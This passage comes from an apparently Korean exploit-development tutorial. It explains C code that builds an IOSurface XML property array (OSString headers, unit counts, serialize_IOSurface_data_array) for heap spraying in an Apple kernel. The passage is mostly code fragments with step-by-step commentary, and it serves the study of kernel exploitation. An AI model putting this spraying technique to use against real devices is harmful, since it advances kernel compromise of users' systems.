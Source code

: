 ```c
/*
 * xml_units_for_data_size
 *
 * Description:
 * 	Return the number of XML units needed to store the given size of data in an OSString.
 */
static size_t
xml_units_for_data_size(size_t data_size) {
	return ((data_size - 1) + sizeof(uint32_t) - 1) / sizeof(uint32_t);
}
```

다음으로, 4단계; “여기서 여러 개의 1은 Spraying Data 외에 고정된 XML 노드를 의미하며, 구체적인 구성은 이후에 확인할 수 있음”을 살펴보자.

`xml_units_per_data`를 기반으로 전체 XML Unit 수를 계산한다.

`(1 + xml_units_per_data) * current_array_length` 부분은 OSString Header + Data 구조를 `current_array_length`번 반복한 뒤의 Unit 수를 의미하며, 
앞뒤의 3개의 **`1`**은 추가적인 설명용 XML Unit을 나타낸다.

```c
size_t xml_units = 1 + 1 + 1 + (1 + xml_units_per_data) * current_array_length + 1 + 1 + 1;
```

6단계에서는 XML에서 채워야 할 `current_array_length`개의 OSString Child Unit Header를 가리키는 XML Unit 포인터 배열을 준비한다. 

이 배열은 XML 구성 과정에서 사용되며, `current_array_length`개의 OSString Header Unit 주소를 저장해 두었다가 이후 Spraying Data를 XML에 복사할 때 참조한다.

```c
uint32_t **xml_data = malloc(current_array_length * sizeof(*xml_data));
```

가장 중요한 핵심은 7단계에서 `serialize_IOSurface_data_array`를 호출하는 부분이다.
여기서 `args->xml`은 XML Unit 포인터로, 하나의 XML Header Unit을 가리킨다.

```c
#if 0
struct IOSurfaceValueArgs {
    uint32_t surface_id;
    uint32_t _out1;
    union {
        uint32_t xml[0];
        char string[0];
    };
};
#endif
struct IOSurfaceValueArgs *args;
size_t args_size = sizeof(*args) + xml_units * sizeof(args->xml[0]);
args = malloc(args_size);
// 7. XML 구성
uint32_t *key;
uint32_t **xml_data = malloc(current_array_length * sizeof(*xml_data));
size_t xml_size = serialize_IOSurface_data_array(args->xml, current_array_length, data_size, xml_data, &key);
```
